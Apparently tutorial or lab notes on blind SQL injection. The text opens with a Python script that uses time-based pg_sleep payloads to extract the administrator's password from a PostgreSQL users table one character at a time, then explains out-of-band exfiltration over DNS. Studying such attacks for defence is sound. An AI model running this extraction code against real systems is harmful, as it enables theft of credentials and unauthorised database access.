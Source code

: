 ```python
# print(parse_payload("select 1 from pg_sleep(5)"))

def get_password_length():
    for i in range(1, 100):
        payload = f"SELECT CASE WHEN LENGTH(password)={i} THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users where username='administrator'--"
        print(f"Trying: {i}")
        if blind_sql(parse_payload(payload)):
            return i


def get_password():
    # password_length = get_password_length()
    password_length = 20
    print(f"Password length: {password_length}")
    password = ""
    for i in range(password_length):
        for char in charset:
            payload = f"SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, {i+1}, 1)='{char}') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--"
            if blind_sql(parse_payload(payload)):
                password += char
                print(f"Found: {password}")
                break

    return password
print(get_password())
```

## Exploiting blind SQL injection using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

## Exploiting blind SQL injection using out-of-band (OAST) techniques - Continued
